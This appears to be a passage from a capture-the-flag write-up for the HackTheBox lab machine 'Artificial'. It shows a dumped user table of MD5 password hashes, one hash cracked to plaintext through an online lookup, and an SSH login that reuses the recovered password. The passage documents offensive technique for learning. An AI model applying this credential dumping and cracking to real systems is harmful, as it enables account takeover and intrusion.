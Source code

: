 ```a
sqlite> SELECT * FROM user;  
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8  
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb  
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36  
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6  
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0  
6|fart|fart@fart.com|3f2f4295a5eb6ad967b832d35e048852  
7|tmpuser|tmpuser@tmp.com|32ecc7b16bde356f5d47cacc01118458
```
- Very good. This is going faster than I expected, and I do appreciate the presence of one of my competitors. I tip my hat to you, "fart".
- These password hashes don't seem horribly complex (I recognize MD5 when I see it), so I'll just paste them into [CRACK STATION](https://crackstation.net) and see how it goes.
- THERE IT IS:
```a
c99175974b6e192936d97224638a34f8 -> mattp005numbertwo
```
- Here's to hoping he reused the password...

### Escalation
- Ideally the server is misconfigured to allow username+password login via SSH. That way I don't need to spin up another reverse shell just to run `su` and grab the key. Let's try:
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> ssh gael@artificial.htb  
The authenticity of host 'artificial.htb (10.10.11.74)' can't be established.  
ED25519 key fingerprint is SHA256:RfqGfdDw0WXbAPIqwri7LU4OspmhEFYPijXhBj6ceHs.  
This key is not known by any other names.  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added 'artificial.htb' (ED25519) to the list of known hosts.  
gael@artificial.htb's password:    
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)  
  
* Documentation:  https://help.ubuntu.com  
* Management:     https://landscape.canonical.com  
* Support:        https://ubuntu.com/pro  
  
System information as of Sat 02 Aug 2025 05:16:35 AM UTC  
  
 System load:           0.01  
 Usage of /:            61.5% of 7.53GB  
 Memory usage:          30%  
 Swap usage:            0%  
 Processes:             226  
 Users logged in:       1  
 IPv4 address for eth0: 10.10.11.74  
 IPv6 address for eth0: dead:beef::250:56ff:feb0:d60b  
  
  
Expanded Security Maintenance for Infrastructure is not enabled.  
  
0 updates can be applied immediately.  
  
Enable ESM Infra to receive additional future security updates.  
See https://ubuntu.com/esm or run: sudo pro status  
  
  
The list of available updates is more than a week old.  
To check for new updates run: sudo apt update  
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings  
  
  
```